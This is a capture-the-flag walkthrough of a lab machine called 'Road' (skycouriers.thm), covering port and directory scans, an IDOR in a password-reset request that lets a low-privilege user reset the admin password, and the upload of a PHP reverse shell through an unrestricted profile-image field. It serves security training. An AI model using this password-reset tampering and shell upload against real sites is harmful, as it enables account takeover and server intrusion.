







# Road

## Enumeration

### Ports & Services

Before we can exploit this machine, we must determine what ports are publically available and what services are running. To do this, we will run an `NMAP` scan on the target.

Command:

```bash
nmap -A -p- -oN nmap/all_ports_aggressive $TARGET
```

Output:

```bash
Nmap scan report for skycouriers.thm (10.10.59.80)
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   13.95 ms 10.6.0.1
2   ... 3
4   81.18 ms skycouriers.thm (10.10.59.80)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 29 15:23:01 2022 -- 1 IP address (1 host up) scanned in 84.46 seconds
```

We only have one real location we can interact with: port 80. Our next step is to go to the site and see what information we can gather there.

## Site

Going to the site and manually enumerating it, there are two main points of interest.  The first thing that pops up is the `Merchant Central` button because it links to `v2/admin/login.html`.



The second is located at the bottom of the page, in the footer, and is a domain name: `skycouriers.thm`. This is of interest because it may be a virtual domain, pointing to a different site.



Adding `skycouriers.thm` to `/etc/hosts` and navigating to `http://skycouriers.thm` brings us to the same site, meaning there was not a different site being virtually hosted under this domain.

For due diligence, we'll run a `gobuster` scan on the site to check for any hidden folders or directories. The wordlist used in this one is `raft-large-directories-lowercase`.

Command:

```bash
gobuster dir -u http://$TARGET -w <wordlist> -t 50 -x html,php
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$TARGET/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/01/02 15:35:58 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.10.6.161/assets/]
/index.html           (Status: 200) [Size: 19607]                               
/v2                   (Status: 301) [Size: 307] [--> http://10.10.6.161/v2/]    
/career.html          (Status: 200) [Size: 9289]                                
/server-status        (Status: 403) [Size: 276]                                                                                
===============================================================
2023/01/02 15:40:33 Finished
===============================================================
```

The `v2` directory looks interesting so we will run a scan on that as well.

Command:

```bash
gobuster dir -u http://$TARGET/v2 -w <wordlist> -t 50 -x html,php
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$TARGET/v2
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/01/02 15:43:22 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 313] [--> http://10.10.6.161/v2/admin/]
/index.php            (Status: 302) [Size: 20178] [--> /v2/admin/login.html]      
/profile.php          (Status: 302) [Size: 26751] [--> /v2/admin/login.html]      
/lostpassword.php     (Status: 200) [Size: 22]
/profileimages        (Status: 301) [Size: 321] [--> http://10.10.6.161/v2/profileimages/]
===============================================================
2023/01/02 15:47:57 Finished
===============================================================
```

There are a few discoveries to take note of in the `v2` scan: `lostpassword.php`, `profile.php`, `admin`, and `profileimages`.  The `profile.php` page appears to require authenitcation because of the redirect to `v2/admin/login.html`, and `lostpassword.php` returns an `Internal Server Error` message if we navigate to it in a browser.  `Profileimages` may be a good place to target if we are able to upload a reverse shell, but is of no real interest right now. 

Let's see if there is anything we can discover in `v2/admin`. 

Command:

```bash
gobuster dir -u http://$TARGET/v2/admin -w <wordlist> -t 50 -x html,php
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$TARGET/v2/admin
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/01/02 15:51:25 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 32]
/login.html           (Status: 200) [Size: 2619]
/logout.php           (Status: 302) [Size: 0] [--> login.html]
/register.html        (Status: 200) [Size: 3798]              
/reg.php              (Status: 200) [Size: 28]
/logincheck.php       (Status: 200) [Size: 50]
===============================================================
2023/01/02 15:55:58 Finished
===============================================================
```

There are a bunch of interesting pages we can pontentially use later, but the one that is of greatest interest is `register.html` as this will allow us to create a user on the site.

### Register

Going to `$TARGET/v2/admin/register.html`, we are presented with a sign up page.


Creating a user `test@test.local` with `test` as the password and `1111111111` as the phone number works. We can now sign in by putting `test@test.local` as the username and `test` as the password.  This will bring us to a dashboard. 



Clicking on the dropdown next to the avatar in the top right corner and selecting `profile` brings us to a page we can edit our profile information on. Scrolling down to the bottom reveals a `Select profile Image` location with a file selector.  There is a message under the `Select profile Image` input stating that this feature is only enabled for the admin.  The message discloses the admin email (`admin@sky.thm`), which may be useful later. 



Looking at the left panel of the dashboard, we see an option to `ResetUser`. Selecting this brings us to a screen that allows us to change our password. 



The interesting thing here is that our username is displayed in an input box, indicating it may be sent in the request. If this is the case, there may be an Insecure Direct Object Reference (IDOR) vulnerability present in this site that allows us to change the admin user's password using a low privilege account. Intercepting the request with BurpSuite, we see this is exaclty the case.

```bash
POST /v2/lostpassword.php HTTP/1.1
Host: skycouriers.thm
Content-Length: 539
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://skycouriers.thm
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtybCUNhftRFzYf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://skycouriers.thm/v2/ResetUser.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ceghloqd02cicj4k2v1tccrdk9; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Connection: close

------WebKitFormBoundaryrxtybCUNhftRFzYf
Content-Disposition: form-data; name="uname"

test@test.local
------WebKitFormBoundaryrxtybCUNhftRFzYf
Content-Disposition: form-data; name="npass"

test
------WebKitFormBoundaryrxtybCUNhftRFzYf
Content-Disposition: form-data; name="cpass"

test
------WebKitFormBoundaryrxtybCUNhftRFzYf
Content-Disposition: form-data; name="ci_csrf_token"


------WebKitFormBoundaryrxtybCUNhftRFzYf
Content-Disposition: form-data; name="send"

Submit
------WebKitFormBoundaryrxtybCUNhftRFzYf--
```

By changing `test@test.local` to `admin@sky.thm` and forwarding the request, we are able to update the admin password.  Now we can logout of our current user and login as admin.

### Reverse Shell

Logging in as `admin@sky.thm`, we can now upload a file using the `Select Profile Image` input on the `profile.php` page. Uploading a PHP reverse shell gives a `200 OK` return code, meaning there is not a restriction on the file type. 

Now we have to trigger the reverse shell. During the `gobuster` scan of `v2`, we discovered a directory called `profileimages`.  We can trigger the shell by going to `v2/profileimages/<shellname>`.

Once the shell fires off, we have a foothold on the target machine as `www-data` and can begin escalating our privilege. 

## Automated Foothold

There are two programs I created to automate the process of uploading and triggering a reverse shell. One is in `Golang` and the other is in `Python3`. Both programs automatically generate usernames and passwords, register the generated user, update the admin password to a randomly generated string, login as admin, upload a reverse shell, and trigger the shell. 

Golang:



Python3:


